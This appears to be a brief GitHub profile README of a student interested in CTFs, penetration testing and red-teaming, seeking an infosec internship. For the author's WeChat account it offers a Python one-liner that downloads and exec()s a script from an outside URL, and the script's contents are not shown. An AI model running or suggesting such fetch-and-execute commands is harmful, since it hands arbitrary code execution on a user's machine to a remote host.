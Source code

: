 # Hi, I’m @NorthShad0w
## Certifications:
**OSCP**

Sophomore student in Beijing(will graduate in 2023)  
CTF & pen-test enthusiast  
Currently learning bug-bounty-hunting and Red Team  
looking for internship jobs about infosec in Beijing or Hangzhou  
E-mail address: 992426347[AT]qq.com  
Get my WeChat account:  
`python3 -c "exec(__import__('urllib.request',fromlist=['urlopen']).urlopen('http://blog.lvdch.icu/Test.py').read().decode())"`
